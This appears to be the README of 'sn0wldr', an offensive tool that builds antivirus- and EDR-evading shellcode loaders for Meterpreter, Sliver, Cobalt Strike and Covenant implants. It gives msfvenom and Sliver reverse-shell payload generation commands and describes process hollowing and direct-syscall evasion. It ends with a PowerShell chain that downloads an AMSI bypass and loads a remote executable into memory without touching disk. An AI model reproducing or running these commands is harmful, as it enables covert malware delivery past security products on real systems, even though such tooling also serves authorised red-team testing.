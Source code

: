 # sn0wldr

## This is used to generate a AV bypassed sc loader.

up to test day, most common AVs can be bypassed: Windows defender, ATP, CS Falcon, Carbon Black, Red Canary, Cylance and McAfee.

### Install MONO when using Kali Linux / Debian Based Distributions

```
sudo apt install apt-transport-https dirmngr gnupg ca-certificates
sudo apt-key adv --keyserver hkp://keyserver.ubuntu.com:80 --recv-keys 3FA7E0328081BFF6A14DA29AA6A19B38D3D831EF
echo "deb https://download.mono-project.com/repo/debian stable-buster main" | sudo tee /etc/apt/sources.list.d/mono-official-stable.list
sudo apt update
sudo apt-get install mono-complete
```

### Install MONO when using Ubuntu (tested for 22.04)

```
sudo apt install apt-transport-https dirmngr gnupg ca-certificates
sudo apt-key adv --keyserver hkp://keyserver.ubuntu.com:80 --recv-keys 3FA7E0328081BFF6A14DA29AA6A19B38D3D831EF
echo "deb https://download.mono-project.com/repo/ubuntu stable-focal main" | sudo tee /etc/apt/sources.list.d/mono-official-stable.list
sudo apt update
sudo apt install mono-complete
```

### Currently supporting the following C2 plateform (It is now should be able to support any C2 if shellcode is provided):

- Meterpreter
- Covenent
- Sliver
- Cobalt Strike

### Feature

- Process Hollowing
- Behaviour detection bypass
- Random AES encryption
- Rewrite to use D/Invoke direct syscalls
- Add a new haloloader_template to use [SharpHalos](https://github.com/GetRektBoy724/SharpHalos), HaloGates direct syscalls methods to load shellcode

### Guide

1. Generate shellcode for supported C2 implant in raw format:
   
For Sliver:

Due to the latest Sliver has shellcode encoding enabled by default which somehow break the halogate loader, so need to disable it when generate the shellcode by issue `-G`. Evasion and Obfuscation can both be enabled for better EDR bypass:

```
### To Generate a Sliver implant shellcode without obfuscation:
### For latest Sliver, it has shellcode encoding enabled by default which somehow break the halogate loader, so need to disable it when generate the shellcode by issue "-G". Evasion and Obfuscation can both be enabled for better EDR bypass: 
# [server] sliver > generate -N sliver --mtls 10.0.0.145 -b 10.0.0.145 -e -G -f shellcode --save /root/Codes/sn0wldr/input/
# [*] Generating new windows/amd64 implant binary
# [!] Symbol obfuscation is disabled
# [*] Build completed in 00:01:25
# [*] Implant saved to /root/Codes/sn0wldr/input/sliver.bin
#
### Move the sliver.bin to folder input if required, then run the autogen script.
```

For Meterpreter:

```
### To Generate a Meterpreter implant shellcode without obfuscation:
# for x64
# msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.0.0.145 LPORT=8443 -f raw -o input/meterpreter.bin
# for x86
# msfvenom -p windows/meterpreter/reverse_https LHOST=10.0.0.145 LPORT=8443 -f raw -o input/meterpreter.bin
### Move the meterpreter.bin to folder input if required, then run the autogen script.
```

For CobaltStrike:

```
### To Generate a CS implant shellcode without obfuscation:
# Attacks -> Packages -> Payload Generator
# Choose Raw in Output area.
### Move the cobaltstrike.bin to folder input and rename to cobaltstrike.bin, then run the autogen script.
```

2. Move the generated shellcode bin file to `input` folder, and rename it as format: `<c2type>.bin`

3. Run the autogen script `autogen_loader.sh`, wait for couple of minutes and check the generated encrypted EXE in the output folder.

```
┌──(root💀TW-PenTestBox)-[~/myCodes/sn0wldr]
└─# ./autogen_loader.sh -h
[*] Usage: ./autogen_loader.sh -t <c2type> -a <target_os_arch> -s <syscall_type>
[*] Exg..: ./autogen_loader.sh -t sliver -a x64 -s halogate

[!] Make sure the shellcode bin file located in input folder and named as <c2type>.bin
[!] Currently c2type only support the following four:
[!] 	sliver|meterpreter|cobaltstrike|covenant
[!] Current directly syscall methods only support the following two:
[!] 	dinvoke|halogate
```

4. Since the generated executable file is Sharp Assembly, it can be chained with the tool [PowerSharpLoader](https://github.com/F4l13n5n0w/PowerSharpLoader) to load remotely into memory without touch disk, as shown in the following example:

```
IEX([Net.Webclient]::new().DownloadString("https://raw.githubusercontent.com/F4l13n5n0w/PowerSharpLoader/master/amsi3.txt"));
IEX([Net.Webclient]::new().DownloadString("https://raw.githubusercontent.com/F4l13n5n0w/PowerSharpLoader/master/Invoke-LoadAssembly.ps1"));
Invoke-LoadAssembly -AssemblyUrl https://not.o0.rs/halosli64x2.exe -Command ""
```

### To Do

- Add bananameowloader for even better AV bypass
- Add InlineExecute-Assembly BoF support for Sliver
